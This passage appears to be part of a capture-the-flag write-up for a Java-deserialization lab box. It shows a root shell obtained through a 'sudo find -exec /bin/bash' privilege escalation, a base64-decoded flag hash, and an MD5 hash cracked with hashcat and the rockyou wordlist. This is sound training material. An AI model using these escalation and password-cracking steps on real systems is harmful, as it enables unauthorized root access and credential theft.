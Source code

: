 ~~~
jboss@thm-java-deserial:~$ sudo find . -exec /bin/bash \; -quit
root@thm-java-deserial:~# cd /root
root@thm-java-deserial:/root# ls -la
total 24
drwx------  2 root root 4096 Mar  6 15:52 .
drwxr-xr-x 22 root root 4096 Mar  4 13:29 ..
-rw-------  1 root root   54 Mar  7 00:41 .bash_history
-rw-r--r--  1 root root 3106 Feb 20  2014 .bashrc
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-r--r--  1 root root   46 Mar  6 15:52 root.txt
root@thm-java-deserial:/root# cat root.txt 
QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==
~~~

We are provided with a base64 encoded string that gives us a hash:

~~~
root@thm-java-deserial:/root# cat root.txt | base64 -d
BC77AC072EE30E3760806864E234C7CF
~~~

This has is found [here](http://www.md5this.com/list.php?page=72394&key=1&author=ToXiC&country=Cyprus&city=Nicosia) and corresponds to the `zxcvbnm123456789` string, which gives us the flag:

We may have also cracked the hash ourselves:

~~~
$ hashcat -a 0 -m 0 BC77AC072EE30E3760806864E234C7CF /usr/share/wordlists/rockyou.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i7-4800MQ CPU @ 2.70GHz, 1024/3144 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=0 -D _unroll'
* Device #1: Kernel m00000_a0-pure.c956682c.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
~~~